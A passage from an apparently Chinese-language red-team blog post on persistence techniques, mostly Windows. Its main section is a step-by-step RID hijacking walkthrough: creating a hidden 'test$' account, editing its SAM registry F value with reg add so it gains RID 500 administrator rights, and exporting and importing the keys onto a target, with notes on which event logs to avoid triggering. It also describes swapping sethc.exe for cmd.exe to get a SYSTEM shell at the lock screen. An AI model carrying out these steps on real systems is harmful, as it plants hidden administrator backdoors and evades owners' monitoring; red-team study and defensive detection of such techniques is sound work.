-------------------------------------------------------------------------------
123                      Administrator            DefaultAccount
Guest                    root                     WDAGUtilityAccount
命令成功完成。
```

只有正确输入用户名才能查到信息。

```plaintext
PS C:\Users\123> net user test
找不到用户名。

请键入 NET HELPMSG 2221 以获得更多的帮助。

PS C:\Users\123> net user test$
用户名                 test$
全名
注释
用户的注释
国家/地区代码          000 (系统默认值)
帐户启用               Yes
帐户到期               从不

上次设置密码           2023/4/30 21:48:29
密码到期               2023/6/11 21:48:29
密码可更改             2023/4/30 21:48:29
需要密码               Yes
用户可以更改密码       Yes

允许的工作站           All
登录脚本
用户配置文件
主目录
上次登录               从不

可允许的登录小时数     All

本地组成员             *Users
全局组成员             *None
命令成功完成。
```

或者通过计算机管理中查看用户。



设置里也能查询到用户信息。



*OPSEC：在创建用户时系统会产生安全日志，4720 创建用户成功，4722 启用用户，4738 用户被更改，4724 用户密码被重置，4732 用户被加入 User 组，4728 已向启用了安全性的全局组中添加某个成员。详情请看事件文件：[添加用户 test$ 产生的事件.evtx](https://www.raingray.com/usr/uploads/2023/06/2867137254.evtx)。*

默认创建的用户是普通用户，想要得到管理员权限，可以直接把将用户加入管理员组，让普通用户变成管理员，这种操作也不太好，会产生日志 4732：已向启用了安全性的本地组中添加某个成员，里面写明了添加的哪个用户到哪个组里。

```plaintext
net localgroup administrators /add <account name>
```

#### 2.7.2 RID Hijacking

为防止创建管理员用户产生的日志，这就要用到 RID 劫持让一个普通账户变成管理员，并且在系统中除了 SAM 注册表能查到外，其他地方不会显示此用户的存在。

RID 是 SID 中最后一快数字，用于区分普通用户还是管理员用户，只要将我们创建的用户 test$ 的 RID 替换成管理员用户的 RID，就能提升成管理权限，当然系统内其他用户也是可以的，并不是非要创建一个。

首先看怎么获取管理员用户 Administrator 的 RID，RID 这些值存放在注册表 HKEY\_LOCAL\_MACHINE\\SAM 项，通过右键 -> 权限，可以确认默认情况下只有 SYSTEM 权限才可以读取，Administrators 管理员组没有权限读。



需要手动赋予控制权。



RID 都存放在注册表 HKEY\_LOCAL\_MACHINE\\SAM\\SAM\\Domains\\Account\\Users\\ 下这些随机数字字符命名项里，好在 HKEY\_LOCAL\_MACHINE\\SAM\\SAM\\Domains\\Account\\Users\\Names\\Administrator\\Users\\Names 下的项中默认值类型跟 Users 项一一对应。

这里以 Administrator 为例，找到 Names\\Administrator 用户默认值类型 0x1f4，去对应 Users 项里找尾数 1F4 的项 000001F4 ，这就是用户 Administrator RID 存放的地方。



同样可以命令行查，转换类型写着 500 的十进制 RID 值，到十六进制得到 1F4。

```plaintext
PS C:\Users\gbb> reg query HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Administrator /z

HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Administrator
    (默认)    REG_NONE (500)
```



获取 000001F4 项里的 F 值，其中 01 F4（图中要从右往左念），是用户 Administrator RID 值，十进制是 500。



命令行获取。

```plaintext
PS C:\Users\gbb> reg query HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4 /v F

HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4
F    REG_BINARY    0300010000000000000000000000000000000000000000000000000000000000FFFFFFFFFFFFFF7F0000000000000000F401000001020000110200000000000000000000010000000000000000000C00
```

有了管理员 SID 后，查询影子用户 test$ 的 RID 位置。

```plaintext
PS C:\Users\123> reg query HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$ /z

HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$
    (默认)    REG_NONE (1004)

PS C:\Users\123> reg query HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EC /z /v F

HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EC
    F    REG_BINARY (3)    030001000000000000000000000000000000000000000000F0AE8EA6027DD90100000000000000000000000000000000EC03000001020000100000000000000000000000000000000000000000000000
```

直接把用户 test$ 的 RID 值 03 EC 替换成 01 F4 即可。这在数据中顺序是 F401，为了方便展示我做了换行输出。

```plaintext
030001000000000000000000000000000000000000000000F0AE8EA6027DD90100000000000000000000000000000000
F401
000001020000100000000000000000000000000000000000000000000000
```

命令行直接替换。

```plaintext
PS C:\Users\123> reg add HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EC /v F /d 030001000000000000000000000000000000000000000000F0AE8EA6027DD90100000000000000000000000000000000F401000001020000100000000000000000000000000000000000000000000000 /t REG_BINARY /f
操作成功完成。
```

为了确认 RID 是否更改成功，先查询用户 test$ 的 SID，发现还是 1004。

```plaintext
C:\Users\123>wmic useraccount where (name='test$') get name,sid
Name   SID
test$  S-1-5-21-2973696153-3313763339-1684698060-1004
```

但是用 test$ 用户启动终端查询自己 RID，确实是 500，也有权限向系统盘写文件。

```plaintext
PS C:\Users\123> runas /user:test$ cmd
输入 test$ 的密码:
试图将 cmd 作为用户 "DESKTOP-AKRQV41\test$" 启动...
```



替换完成将用户导出，在目标机器上导入即可。

```plaintext
PS C:\Users\123> reg export HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EC Desktop/000003EC.reg
操作成功完成。

PS C:\Users\123> reg export HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$ Desktop/test$.reg
操作成功完成。
```

站在攻击者视角来看，真正利用时肯定不是在目标机器上一顿创建账户再劫持 RID，而是根据目标系统类型，在本地测试机上创建影子用户，做好 RID 劫持，最后在目标机器导入这两个注册表。这里再提醒下，导入一定得有权限编辑，就像前面说的默认情况只有 SYSTEM 有权限编辑 SAM 注册表。

```plaintext
PS C:\Users\123> reg import Desktop/000003EC.reg
操作成功完成。
PS C:\Users\123> reg import Desktop/test$.reg
操作成功完成。
```

导入后计算机管理和设置中不会显示此账户名。



只有在 SAM 注册表和 net user 具体查对应用户名才会展示出来。





影子账户和 RID 劫持测试各个系统测试情况：

-   Windows XP，原作者说 RID 能劫持，没测过。
-   Windows 7 专业版 6.1.7601，RID 可劫持，计算机管理中无法隐藏用户名。
-   Windows 8.1，原作者说 RID 能劫持，没测过。
-   Windows 10，《内网渗透体系建设》书上说 RID 可劫持，能够隐藏用户，没测过。
-   Windows 11（10.0.22621）RID 可劫持，能够隐藏用户，只是 RDP 第一次登录是会自动创建用户目录，而且计算机管理中用户名也会出现，最好不要使用 RDP，会暴露。
-   Windows Server 2003，原作者说 RID 能劫持，没测过。

### 2.8 Accessibility Features⚒️

登录界面辅助功能，通过这些快捷键，在锁屏状态下可以触发后门。

[用于辅助功能的 Windows 键盘快捷方式 - Microsoft 支持](https://support.microsoft.com/zh-cn/windows/%E7%94%A8%E4%BA%8E%E8%BE%85%E5%8A%A9%E5%8A%9F%E8%83%BD%E7%9A%84-windows-%E9%94%AE%E7%9B%98%E5%BF%AB%E6%8D%B7%E6%96%B9%E5%BC%8F-021bcb62-45c8-e4ef-1e4f-41b8c1fc87fd)

[Accessibility Features persistence - Google 搜索](https://www.google.com/search?q=Accessibility+Features+persistence&sxsrf=APwXEdewFbujqzr5vyFonpuI-DK8Qdp5tQ%3A1683124663458&ei=t3FSZN29G6Cz2roP4bip-Aw&ved=0ahUKEwid9bX9r9n-AhWgmVYBHWFcCs8Q4dUDCA8&uact=5&oq=Accessibility+Features+persistence&gs_lcp=Cgxnd3Mtd2l6LXNlcnAQAzIECAAQHjIGCAAQCBAeMgYIABAIEB4yBggAEAgQHjoGCAAQBxAeOggIABAIEAcQHkoECEEYAFAAWK4DYJsFaABwAXgAgAG4AYgB2AKSAQMwLjKYAQCgAQKgAQHAAQE&sclient=gws-wiz-serp)

Windows 安装后 Ctrl + Shift + Win + Alt，Office 管理器

关于远程登陆你也可以直接放 RDESK 或者向日葵。

#### 2.8.1 Utility Manager⚒️

辅助功能管理

可以在锁屏打开。但是需要确认，是不是锁屏状态下，按快捷键 Win + u 就会启动对应程序，看 TryHackMe [RedTeam](https://tryhackme.com/room/windowslocalpersistence) 提到是可以触发的。

也可以解锁后打开

C:\\Windows\\System32\\Utilman.exe

#### 2.8.2 On-Screen Keyboard⚒️

Windows + Ctrl + o，辅助键盘

#### 2.8.3 Magnifier⚒️

Win + Plus，放大镜

#### 2.8.4 High Contrast⚒️

Left Alt + left Shift + Print screen，高对比度主题

#### 2.8.5 Sticky Keys⚒️

5 下 Shift 触发粘滞键。

所在路径：C:\\Windows\\System32\\sethc.exe

将其替换成 cmd.exe 即可免登录获得 SYSTEM 权限的命令提示符。或者也可以换成 Loader 先启动正常的粘滞键应用后启动木马 。

[Sticky Keys persistence - Google 搜索](https://www.google.com/search?q=Sticky+Keys+persistence&oq=Sticky+Keys+persistence&aqs=edge..69i64j69i57.779j0j1&sourceid=chrome&ie=UTF-8)

#### 2.8.6 Filter Keys⚒️

筛选键

#### 2.8.7 Narrator⚒️

讲述人

### 2.9 Terminal Profile⚒️

[使用 Windows 终端时的隐形持久性。|鲍勃·范德斯塔克 |信息安全文章 (infosecwriteups.com)](https://infosecwriteups.com/stealthy-persistence-while-using-windows-terminal-ff6f4927563a)

[视窗终端配置文件 |persistence-info.github.io](https://persistence-info.github.io/Data/windowsterminalprofile.html)

#### 2.9.1 PowerShell

#### 2.9.2 WIndows Terminal

Windows 11 开始已经是自带的软件。

[Persistence Using Windows Terminal “Profiles” | by Nasreddine Bencherchali | Medium](https://nasbench.medium.com/persistence-using-windows-terminal-profiles-5035d3fc86fe)

### 2.10 Screensaver⚒️

### 2.11 IFEO Injection⚒️

### 2.12 Telemetry⚒️

[利用TelemetryController实现的后门分析 (3gstudent.github.io)](https://3gstudent.github.io/%E5%88%A9%E7%94%A8TelemetryController%E5%AE%9E%E7%8E%B0%E7%9A%84%E5%90%8E%E9%97%A8%E5%88%86%E6%9E%90)

[滥用 Windows 遥测来实现持久性 - TrustedSec](https://www.trustedsec.com/blog/abusing-windows-telemetry-for-persistence/)

## 3 Linux

### 3.1 Shared Library Hijacking⚒️

.so 和 Windows .dll 类似。

### 3.2 Crontab⚒️

### 3.3 Shell Startup Files⚒️

[事件触发执行：Unix 外壳配置修改，子技术 T1546.004 - 企业 |米特雷·阿特克® (mitre.org)](https://attack.mitre.org/techniques/T1546/004/)

[The Bash Shell Startup Files (linuxfromscratch.org)](https://www.linuxfromscratch.org/blfs/view/svn/postlfs/profile.html)

~/.bashrc

~/.bash\_profile

~/.bash\_logout

登入登出自动执行

添加账户

### 3.4 VIM⚒️

### 3.5 SSH⚒️

公钥登录

使用 SSH 后门抓管理密码

### 3.6 Apache⚒️

Apache Module

## 参考资料

-   持久化
    
    [RED TEAM Operator: Windows Persistence Course (sektor7.net)](https://institute.sektor7.net/rto-windows-persistence)
    
    [Persistence, Tactic TA0003 - Enterprise | MITRE ATT&CK®](https://attack.mitre.org/tactics/TA0003/)
    
-   DLL 劫持
    
    [15-1. Overview and Escalation via DLL Hijacking\_哔哩哔哩\_bilibili](https://www.bilibili.com/video/BV1it4y1w7BA/?vd_source=2debf117b8b8f7d9793b4daac526786d)
    
    [Windows中的DLL劫持。简单的 C 示例。- 科科隆克 (cocomelonc.github.io)](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)
    
    [使用导出函数进行 DLL 劫持。示例：微软团队 - Cocomelonc](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)
    
    [RED TEAM Operator\_ Windows Persistence 09 - DLL Proxying - Introduction\_哔哩哔哩\_bilibili](https://www.bilibili.com/video/BV1HD4y1179h/?vd_source=2debf117b8b8f7d9793b4daac526786d)
    
    [RED TEAM Operator\_ Windows Persistence 10 - DLL Proxying - Demo\_哔哩哔哩\_bilibili](https://www.bilibili.com/video/BV1ge411T7dh/?spm_id_from=333.999.0.0)
    
    [TryHackMe | Abusing Windows Internals](https://tryhackme.com/room/abusingwindowsinternals)
    
    [动态链接库 （DLL） - Windows 客户端 |微软学习 (microsoft.com)](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library)
    
    [All About DLL Hijacking - My Favorite Persistence Method - YouTube](https://www.youtube.com/watch?v=3eROsG_WNpE)
    
    [DLL 劫持 (lucabarile.github.io)](https://lucabarile.github.io/Blog/dll_hijacking_and_proxying/index.html)
    
-   RID Hijacking
    
    [RID Hijacking: Maintaining access on Windows machines](https://r4wsec.com/notes/rid_hijacking/index.html)
    
    [RID Hijacking - Red Team Notes (ired.team)](https://www.ired.team/offensive-security/persistence/rid-hijacking)
    

最近更新：2023年11月01日 09:34:20

发布时间：2023年06月04日 08:28:00
